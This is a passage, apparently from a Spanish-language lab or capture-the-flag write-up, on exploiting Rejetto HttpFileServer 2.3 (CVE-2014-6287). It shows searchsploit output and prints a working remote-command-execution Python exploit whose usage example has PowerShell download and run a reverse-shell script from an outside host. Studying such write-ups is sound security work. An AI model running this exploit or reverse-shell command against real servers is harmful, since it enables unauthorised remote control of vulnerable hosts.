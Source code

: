 ## SEARCHEXPLOIT
<br>
Podemos utilizar la herramienta `searchexploit` para encontrar vulnerabilidades.

```bash
❯ searchsploit HttpFileServer 2.3
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                                                                                                                  | windows/webapps/49125.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------

```

Parece que tenemos un exploit que nos proporciona RCE, su CVE asignado es `CVE-2014-6287`.

## RCE
<br>
Vamos a observar como funciona el exploit.

```python
# Exploit Title: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 28-11-2020
# Remote: Yes
# Exploit Author: Óscar Andreu
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287

#!/usr/bin/python3

# Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
# Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"

import urllib3
import sys
import urllib.parse

try:
	http = urllib3.PoolManager()
	url = f'http://{sys.argv[1]}:{sys.argv[2]}/?search=%00[{.+exec|{urllib.parse.quote(sys.argv[3])}.}]'
	print(url)
	response = http.request('GET', url)

except Exception as ex:
	print("Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command")
	print(ex)%                                                                                                                                                                                             
```